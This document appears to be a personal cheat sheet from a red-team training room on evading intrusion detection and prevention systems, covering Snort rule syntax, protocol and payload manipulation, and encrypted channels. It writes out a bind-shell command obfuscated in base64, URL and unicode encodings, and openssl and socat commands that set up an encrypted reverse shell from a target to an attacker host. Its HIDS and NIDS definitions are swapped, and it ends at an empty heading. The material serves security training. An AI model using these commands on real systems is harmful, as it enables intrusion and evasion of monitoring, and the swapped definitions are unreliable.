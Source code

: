 # Evading-IPS-And-IDS

## Definitions

IPS = Intrusion Prevention System
IDS = Intrusion Detection System
HIDS = Network-based-IDS
NIDS = Host-based-IDS

Network Traffic and Host activity: is either Benign | Malicious traffic.

Signature-based: Signatures of known maliciou traffic fed into IDS.
Anomaly-based: Regular traffic model, for IDS to detect anomalies.

## IDS/IPS each have rule syntax:
Snort uses:
Rule Header (Rule options)
Action			alert, log, pass, drop and reject
Protocol		TCP, UDP, ICMP or IP
Source IP/Port		!IP/mask any # = anything but from IP/mask range
Direction of Flow	sourceTOdestination = '->'; '<>' birectional 
Destination IP/Port	Similar to Source IP/Port
Some more specifics:
flow:established 


## General approaches you might consider to evade IDS/IPS systems:
Evasion via Protocol Manipulation
Evasion via Payload Manipulation
Evasion via Route Manipulation
Evasion via Tactical Denial of Service (DoS)

## Evasion via protocol manipulation includes:
#### Relying on a different protocol

IF TCP|UDP THEN use UDP|TCP
	ncat -ulvnp PORT_NUM # u for udp listener

IF web-browsing-allowed THEN:
	(protected-host can connect via port 80 and 443, unless local proxy is used)

	Use a Google web hosting to concelal malicious site
IF IPS blocks DNS-queries && HTTP requests THEN:
	(local machines (cannot query external DNS servers)(can query local DNS server)&& enforces HTTP communications)	
	HTTPS can tunnel traffic to evade IPS 

Manipulating (Source) TCP/UDP port
Using session splicing (IP packet fragmentation)
Sending invalid packets
Refer to [[Nmap-Cheatsheet]] for evasion strats

## Suppose you want to force all your packets to be fragmented into specific sizes:
https://www.monkey.org/~dugsong/fragroute/

## Custom packets with Custom fields:
`hping3 --help`

## Evasion via Payload Manipulation
####  Obfuscating and encoding the payload
```bash
ncat -lvnp 1234 -e /bin/bash 	=	bmNhdCAtbHZucCAxMjM0IC1lIC9iaW4vYmFzaA== 	#base64
ncat -lvnp 1234 -e /bin/bash	=	ncat%20-lvnp%201234%20-e%20%2Fbin%2Fbas		#urlencode
ncat -lvnp 1234 -e /bin/bash 	=       # escape unicode, with cyberchef

`\u006e\u0063\u0061\u0074\u0020\u002d\u006c\u0076\u006e\u0070\u0020\u0031\u0032\u0033\u0034\u0020\u002d\u0065\u0020\u002f\u0062\u0069\u006e\u002f\u0062\u0061\u0073\u0068`
```

## Encrypting the communication channel
Create Privacy Enhanced Mail(PEM), see [[Socat-Cheatsheet]]
```bash
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt

#   req indicates that this is a certificate signing request. Obviously, we won’t submit our certificate for signing.
#   -x509 specifies that we want an X.509 certificate
#   -newkey rsa:4096 creates a new certificate request and a new private key using RSA, with the key size being 4096 bits. (You can use other options for RSA key size, such as -newkey rsa:2048.)
#   -days 365 shows that the validity of our certificate will be one year
#   -subj sets data, such as organization and country, via the command-line.
#   -nodes simplifies our command and does not encrypt the private key
#   -keyout PRIVATE_KEY specifies the filename where we want to save our private key
#   -out CERTIFICATE specifies the filename to which we want to write the certificate request


cat reverse.key reverse.crt > reverse.pem

# listener that return execution output
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT

#    -d -d provides some debugging data (fatal, error, warning, and notice messages)
#    OPENSSL-LISTEN:PORT_NUM indicates that the connection will be encrypted using OPENSSL
#    cert=PEM_FILE provides the PEM file (certificate and private key) to establish the encrypted connection
#    verify=0 disables checking peer’s certificate
#    fork creates a sub-process to handle each new connection.

# socat:	
# On Attack box:
socat -d -d TCP-LISTEN:4443,fork STDOUT
# On target machine:
socat OPENSSL:10.10.10.10:4443,verify=0 EXEC:/bin/bash
```

## Modifying the shellcode

